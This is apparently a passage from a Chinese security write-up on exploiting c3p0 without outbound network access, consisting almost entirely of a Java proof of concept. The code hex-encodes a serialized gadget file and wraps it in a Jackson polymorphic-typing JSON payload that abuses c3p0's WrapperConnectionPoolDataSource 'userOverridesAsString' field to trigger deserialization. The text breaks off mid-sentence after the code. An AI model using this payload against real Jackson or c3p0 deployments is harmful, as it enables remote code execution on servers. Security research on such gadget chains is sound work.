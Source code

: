 c3p0不出网利用。

```java
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.*;

class Person {
    public Object object;
}

public class TemplatePoc {
    public static void main(String[] args) throws IOException {

        InputStream in = new FileInputStream("/Users/cengsiqi/Desktop/test.ser");
        byte[] data = toByteArray(in);
        in.close();
        String HexString = bytesToHexString(data, data.length);
        String poc = "{\"object\":[\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",{\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ HexString + ";\"}]}";

        System.out.println(poc);
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        objectMapper.readValue(poc, Person.class);
    }

    public static byte[] toByteArray(InputStream in) throws IOException {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

}
```

首先设置
